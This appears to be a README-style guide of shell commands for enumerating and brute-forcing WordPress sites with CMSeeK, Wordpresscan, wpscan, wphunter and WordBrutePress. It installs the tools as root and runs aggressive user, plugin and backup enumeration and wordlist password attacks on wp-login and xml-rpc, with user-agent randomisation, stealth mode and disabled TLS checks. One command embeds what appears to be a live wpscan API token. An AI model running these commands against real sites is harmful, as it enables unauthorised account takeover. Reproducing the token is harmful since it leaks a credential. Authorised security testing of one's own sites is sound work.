 # Inspired in C4N6
This guide 'll help U to undertsand if your wordpress webapp is vulnerable to enumerate and bruteforce with different tools the below sub components of this cms. 

- credentials 
- plugins
- themes
- timthumbs

#
Login as root

    su
# Identify the CMS 
And provide the report of what harvested and the vulnerabilities

    cd /usr/share && git clone https://github.com/Tuhinshubhra/CMSeeK && cd CMSeeK && sudo python3 cmseek.py --update
#    
    sudo python3 cmseek.py -u https://yourtarget.com --user-agent random -r

# wordpresscan

    cd /usr/share && git clone https://github.com/swisskyrepo/Wordpresscan.git && pip install tornado
#    
    cd Wordpresscan && sudo python wordpresscan.py -u website.com --update --threads 37 --random-agent --brute --fuzz


# wpscan 

    sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev -y && cd /usr/share/wpscan && sudo bundle update && gem update && gem env && gem install wpscan && wpscan --update && wpscan --version && mkdir /usr/share/wordlists && cd /usr/share/wordlists && git clone https://github.com/4k4xs4pH1r3/bbh.git && cd bbh && mv dirbuster /usr/share/ && mv wordlists /usr/share/ && cd /usr/share/dirbuster && mkdir wordlists && cd wordlists && sudo wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkc0de.txt && mv darkc0de.txt darkc0de.lst &&  cd /usr/share/wpscan && sudo mkdir cache
    
# 
In Kali

    wpscan --url http://yourtarget.com --ignore-main-redirect --detection-mode aggressive --interesting-findings-detection aggressive  --wp-version-all --wp-version-detection aggressive --ua --rua -t 10 --throttle 10 --disable-tls-checks --force --update --wp-content-dir /wp-content -e --enumerate vp,vt,tt,cb,dbe,u,m --db-exports-detection aggressive --config-backups-detection aggressive  --main-theme-detection aggressive --themes-detection aggressive --medias-detection aggressive --plugins-version-detection aggressive -v --verbose --no-banner --users-detection aggressive -U ~/users -P /usr/share/dirbuster/wordlists/darkc0de.lst --password-attack wp-login -o ./wpscandebuglog.txt

#
#
# 
In Parrot

   
#      
    sudo wpscan --url https://yourtarget.com/wp-admin --update --user-agent --random-agent --follow-redirection --batch --cache-dir /usr/share/wpscan/cache --wordlist /usr/share/dirbuster/wordlists/darkc0de.lst --usernames ~/users.txt --threads 50 --throttle 10 --enumerate p t u tt --debug-output 2>debug.log --wp-content-dir /wp-content --force --disable-tls-checks --disable-referer --disable-accept-header --no-banner --verbose
    
 In Docker 
 
    docker run -it --rm wpscanteam/wpscan --url https://yourtarget.com/wp-admin --update --force -t 37 --rua --detection-mode aggressive --api-token rXbXUKWwDK6FzlsTg4ydb3IQ1SW4snak0hP6dkO1YzA --detection-mode aggressive --stealthy --password-attack wp-login --plugins-detection aggressive --plugins-version-detection aggressive -v --verbose -e --enumerate vp,vt,tt,cb,dbe,u,m


# wphunter

    cd /usr/share && git clone https://github.com/Jamalc0m/wphunter.git && cd wphunter
#    
    sudo php wphunter.php http://yourtarget.com


# WordBrutePress
    
    apt install git -y && git clone https://github.com/4k4xs4pH1r3/bbh.git /usr/share/wordlists && cd /usr/share/wordlists/wordlists && mv *.* /usr/share/wordlists && mv dirb dirbuster fern-wifi wfuzz /usr/share/wordlists && rm -r /usr/share/wordlists/wordlists && git clone https://github.com/danielmiessler/SecLists.git /usr/share/SecLists && cd && apt install neofetch screenfetch -y && neofetch && cd /usr/share && git clone https://github.com/The404Hacking/WordBrutePress && pip install httplib2 && cd WordBrutePress 
#    
    python2 /usr/share/WordBrutePress/WordBrutePress.py -t http://yoursite.co/wp/ -u username -w /usr/share/SecLists/Passwords/darkc0de.lst

#
[X] You must insert http:// or https:// protocol#



#Standard login brute use this command=
-S, --standard

Xml-rpc login brute use this command=

-X, --xml-rpc
#
# by C4N6
